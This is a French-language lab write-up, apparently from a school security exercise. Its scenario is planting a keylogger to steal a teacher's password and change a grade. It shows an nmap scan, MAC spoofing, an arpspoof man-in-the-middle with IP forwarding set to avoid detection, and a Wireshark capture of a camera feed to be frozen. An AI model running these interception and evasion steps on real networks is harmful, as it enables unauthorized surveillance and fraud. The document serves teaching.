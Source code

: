 # scan du réseau

## 1. Avant propos

Maintenant que nous sommes connecté sur le réseau Wifi, il faut pouvoir scanner le réseau et identifier les différente intéraction des systèmes présent. Pour cette partie, il faut une machine qui dispose d'une carte Wifi de la même manière que la partie de l'infiltration du réseau.

## 2. Rappel du sujet

***La mission est d'entrer dans la salle des 4AS (option à l'INSA CVL en STI) affaint de pouvoir brancher un Keylogger sur la machine de l'enseignant et pouvoir récupérer sont mot de passe pour pouvoir changer ça note obtenue et avoir la moyenne. Comme vous ête dans l'option 2SU, vous avez une porte qui mène directement dans la salle des 4AS, mais cette enseignant, suite à des problème entre des éleves à mis en place un système de carte surveillé par une caméra pour que seulement les profésseur puissent passer par la porte.***

***Pour que cette attaque soit indétectable, vous devez passer devant la caméra sans être vu, puis trouver un moyen de pirater le système de carte et ainsi ouvrir la porte.***

Nous avons réussi à nous connectez au réseau Wifi, il faut maintenant que nous puissions comprendre comment les différent système communique entre eux sans couper la connection au différent élements car cela est détecté, et visible avec un indicateur limineux.

## 3. Identification du réseau

### 3.1. Identification des différents élements en réseau

Pour commencer, nous devons identifier les différents système qui sont disponible sur le réseau. Pour cela nous allons utiliser `nmap` pour scanner toute les adresse IP et trouver les appareils en réseau.

```bash
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.4 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether 60:d8:19:27:01:8a txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

$
```

Nous pouvons constater que le mask de sous-réseau que nous avons est `255.255.255.248` se qui permet de résuire le nombre de scan à réaliser.

La plage d'adresse IP disponible dans ce réseau est comprit entre `[ 192.168.1.1 ; 192.168.1.6 ]`. Nous pouvons donc faire le scan avec `nmap` de ces adresse IP.

```bash
$ nmap -Pn 192.168.1.1-6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-07 10:41 CET

Nmap scan report for 192.168.1.
Host is up (0.023s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT     STATE  SERVICE
20/tcp   closed ftp-data
21/tcp   closed ftp
23/tcp   closed telnet
80/tcp   open   http
1723/tcp open   pptp
2869/tcp open   icslap
MAC Address: 00:18:F8:40:CF:D8 (Cisco-Linksys)

Nmap scan report for raspberrypi. ************************ (192.168.1.2)
Host is up (0.022s latency)
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8081/tcp open  blackice-icecap
MAC Address: B8:27:EB:F2:C3:79 (Raspberry Pi Foundation)

Nmap scan report for raspberrypi. ************************ (192.168.1.5)
Host is up (0.022s latency)
Not shown: 1000 closed tcp ports (reset)
MAC Address: B8:27:EB:B9:42:13 (Raspberry Pi Foundation)

$
```

Nous avons donc trois appareil sur le réseau :
 - 192.168.1.1 : routeur Wifi
 - 192.168.1.2 : Raspberry PI
 - 192.168.1.5 : Raspberry PI

Une des deux Raspberry PI à un port ouvert `8081`. Nous devons donc identifier comment les systèmes communique entre eux.

### 3.1. Identification des intéractions entre les appareils

Maintenant que nous avons repéré les machines de disponible, nous pouvons identifier comment les machines intéragissent entre eux. Pour cela, nous allons utiliser `Wireshark`.

Lorsque nous utilisons directement `wireshark` pour écouter de manière passif ce qui se passe dans la réseau, nous n'avons que des trames `ARP`, et des trames du routeur. Ce qui nous intéresse c'est de pouvoir visualiser la communication entre les deux Raspberry PI. Pour cela, nous allons faire des modifications de la manière dont nous faisont l'écoute du réseau pour passer de passif à semi-actif.

Pour cela, nous devons passer notre carte réseau Wifi en mode moniteur. Nous pouvons aussi en profiter pour changer l'adresse MAC de notre carte réseau:

```bash
$ ifconfig wlan0 down
$ macchanger -r wlan0
Current MAC:   60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
Permanent MAC: 60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
New MAC:       de:28:71:0e:16:29 (unknown)
$ iwconfig wlan0 mode Monitor
$ ifconfig wlan0 up
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.6 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether de:28:71:0e:16:29 txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
$
```

De cette manière, nous avons changez notre adresse `MAC` et mis la carte réseau en mode moniteur.

Avant de pouvoir réutiliser `Wireshark`, nous allons faire un `Man In The Middle` entre les deux Raspberry PI pour pouvoir intercepter tous les paquêtes échangé. Pour cela nous devons utiliser deux terminal.

```bash
# Premier terminal
$ arpspoof -i wlan0 -t 192.168.1.2 192.168.1.5
```

```bash
# Second terminal
$ arpspoof -i wlan0 -t 192.168.1.5 192.168.1.2
```

Cela permet d'envoyer des requêtes `ARP` au deux Raspberry PI,  pour que lors de communication entre elle, il faut passer par l'adresse `MAC` ça machine. Ce qui permet de récupérer touts les paquêtes des deux machines. Si nous exécutons seulement cela, la Raspberry PI qui a les voyant lumineux va détecter un problème dans le réseau.

![Wifi break](./imgs/01_network_break.png "Wifi break")

Cela est du au faite que notre machine récupére les paquêtes, mais ne les redirige pas. Pour régler ce problème il faut activer l'`IP forwarding` avec la commande suivante:

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$
``` 

De cette manière, nous pouvons maintenant écouter les communications entre les deux machines sans avoir de coupure réseau entre les Raspberry PI.

Nous pouvons donc mainteant utiliser `Wireshark`

![wireshark](./imgs/02_capture_wireshark.png "wireshak")

Dans cette capture réseau, nous pouvons identifier que la Raspberry PI `192.168.1.5` fait des requêtes `TCP` sur le port `8081` à la Raspberry PI `192.168.1.2`. Nous pouvons donc suivre une requêtes qui est effectuer en faisant `click droit` sur le requête, puis `suivre`, `Flux TCP`. De cette manière nous obtenons la communication qui c'est effectuer.

![tcp](./imgs/03_tcp_capture.png "tcp")

Nous pouvons donc déterminer que `192.168.1.5` fait une requête `HTTP` vers `192.168.1.2` via un scipt python. La réponse de `192.168.1.2` contient `Content-type: image/jpeg` dans les métadonnées `HTTP`, nous pouvons donc déduire que c'est de cette manière que `192.168.1.5` récupére l'image de la caméra et fait l'identification de présence.

Il faut donc, pour pouvoir passer devant la caméra, modifier le trafic pour que l'image soit constant pour que la détection de présence ne puisse se faire avec le flux de la caméra.
